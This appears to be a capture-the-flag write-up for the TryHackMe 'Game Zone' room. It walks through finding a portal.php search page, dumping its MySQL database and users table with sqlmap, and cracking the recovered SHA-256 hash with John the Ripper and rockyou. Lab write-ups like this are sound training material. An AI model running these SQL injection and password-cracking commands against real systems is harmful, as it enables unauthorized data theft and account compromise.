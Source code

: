 While checking port 80 I got this static page ⏬

![Image](Pasted%20image%2020240410091722.png)
_Front Page_

Now I did the directory or files bruteforcing and found this `portal.php` page that looks like searchable page so I tried SQLi with sqlmap Tool and got this result ⏬

![Image](Pasted%20image%2020240410091910.png)
_portal.php page_

Request parameters are 🔻

![Image](Pasted%20image%2020240410092013.png)
_Burpsuite Resquest and Response Page_

```bash
sudo sqlmap -r portal_searchitem.txt --dump -D mysql
```
{: .nolineno}
{: .nolineno}
I saved this request page into a file called `portal_searchitem.txt` file ⏬

![Image](Pasted%20image%2020240410092312.png)
_sqlmap Tool_

This site is vulnerable to ⏬

![Image](Pasted%20image%2020240410092431.png)
_SQLi Vulnerabilities_


I got this <span style="color:#990091">db</span> Database from above enumeration and used that into sqlmap to dump some more data like this ⏬

```bash
sudo sqlmap -r portal_searchitem.txt --dump --dbms=mysql --dbs db -T users
```
{: .nolineno}
{: .nolineno}

![Image](Pasted%20image%2020240410095250.png)
_sqlmap result of above command_

Now lets crack this hash and get our password and for that I used <mark style="background: #FF5582A6;">John the ripper</mark> Tool or you can use this [site](https://hashes.com/en/decrypt/hash) to crack this hash it is very helpful when comes to cracking hashes .

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Game_Zone]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSWORD>    (?)     
1g 0:00:00:01 DONE (2024-04-10 09:55) 0.5813g/s 1695Kp/s 1695Kc/s 1695KC/s
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 

```
{: .nolineno}
{: .nolineno}
